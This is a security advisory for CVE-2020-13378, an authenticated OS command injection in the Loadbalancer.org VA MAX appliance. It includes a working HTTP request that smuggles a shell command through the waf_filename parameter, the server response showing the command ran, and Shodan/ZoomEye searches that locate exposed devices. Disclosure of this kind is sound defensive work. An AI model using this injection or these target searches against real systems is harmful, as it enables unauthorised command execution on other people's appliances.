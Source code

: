 ```yaml
---
layout: post
title:  "OS Command Injection in Enterprise loadbalancer VA MAX - v8.3.8 and earlier"
date:   2020-04-21 19:51:02 +0700 
categories: [cve]
---
```


Vulnerability: OS Command Injection

OS Command Injection in Loadbalancer.org Appliance v8.3.8-134

Vendor: Loadbalancer.org, https://www.loadbalancer.org

Product: ENTERPRISE VA MAX

Version affected: Loadbalancer.org Appliance v8.3.8 as the latest in October 2019

#### Product description:

"Loadbalancer.org is a well-established international provider of reliable, versatile and cost-effective application delivery products and services. The load balancer experts help solve the issues of availability and scalability by providing an unbreakable solution to ensure zero downtime of critical IT applications.

Loadbalancer.org’s consultancy led approach means they have specialist engineers that will help design and simplify architecture guaranteeing painless deployments every single time. The team of experts are effortlessly able to set up test environments, document each deployment, provide customized solutions and assist with complex migrations. They will support a business, not just the load balancer!

Loadbalancer.org load balancers are sold as hardware, virtual or cloud formats and are more scalable, flexible and are economical compared to competitive offerings.  With no performance or feature restrictions, their suite of products can load balance any application, for any company, in any industry, anywhere in the world. 

Allowing customers to have direct access 24 hours a day 7 days a week to a team of passionate engineers via phone, online chat and e-mail sets Loadbalancer.org apart from other ADC vendors.  

" as per statement on https://www.linkedin.com/company/loadbalancer-org  website. 

* CVE ID: CVE-2020-13378
* CWE ID: CWE-78


##### Proof of Concept

A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted HTTP request. This is exploitable by an authenticated attacker who submits a modified GET request.


Sample GET request, issuing 'id' OS command returns 'uid=48(apache)'

Identified vulnerable parameters: waf_filename  

#### Request:

{% highlight ruby %}
GET /lbadmin/ajax/js_dispatcher.php?option=waf_log&waf_filename=modsec_audit.log%7c%60id%60&log_option=base HTTP/1.1
Host: 10.0.0.99:9443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Authorization: Basic aW5mZ[...]TEw
Connection: close
Cookie: menu=log%2Flaw; hiderestartwarning=0


HTTP/1.1 200 OK
Date: Thu, 03 Oct 2019 11:38:17 GMT
Server: Apache
Content-Length: 800
Connection: close
Content-Type: text/html; charset=UTF-8


<div class="exception"><h2>Exception LBFileError:</h2><p><em>Please report the full text of this exception to <a href="mailto:support@loadbalancer.org">Loadbalancer.org Support</a>, together with brief details of the operation you were performing.</em></p>
<p><em>Thank you.</em></p><p><pre>ensure_access(): &#039;chown  --no-dereference root:apache /var/log/httpd/modsec_audit.log|`id`&#039; failed: errno 127, sh: uid=48(apache): command not found</pre></p><h3>Trace:</h3>
<p><pre>#0 /var/www/html/lbadmin/inc/waf.inc(1878): ensure_access(&#039;/var/log/httpd/...&#039;)
#1 /var/www/html/lbadmin/inc/js_dispatch_func_call.inc(62): load_waf_log_file(&#039;modsec_audit.lo...&#039;, &#039;base&#039;)
#2 /var/www/html/lbadmin/ajax/js_dispatcher.php(70): get_waf_log(Array)
#3 {main}</pre></p></div>
{% endhighlight %}

#### Public searches:

https://www.zoomeye.org/searchResult?q=Loadbalancer%2Corg

https://www.shodan.io/search?query=loadbalancer.org

but this company has interestingly some reputable partnership alliance

![Raw HTTP Request/Response ](/static/img/Loadbalancer.png)

#### References
1. https://www.immuniweb.com/vulnerability/os-command-injection.html
2. https://www.loadbalancer.org
3. https://cwe.mitre.org/data/definitions/78.html
4. https://www.checkmarx.com/knowledge/knowledgebase/OS-Command_Injection
